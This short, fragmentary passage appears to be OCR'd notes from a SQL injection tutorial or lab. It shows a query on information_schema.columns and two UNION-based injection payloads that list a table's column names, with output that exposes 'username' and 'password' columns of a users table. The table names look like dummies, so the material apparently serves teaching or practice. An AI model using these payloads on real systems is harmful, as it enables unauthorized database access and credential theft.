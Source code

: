 ```
table_schema = dummymalex
table_name   = users
```


##### column_name

SELECT column_schema,column_name FROM information_Schema.columns

###### Injection Example 1

```
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
LIMIT 0,1
	ID
LIMIT 1,1
	dummyms
LIMIT 2,1
	description
```

###### Injection Example 2

```
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
LIMIT 0,1
	ID
LIMIT 1,1
	username
LIMIT 2,1
	password
```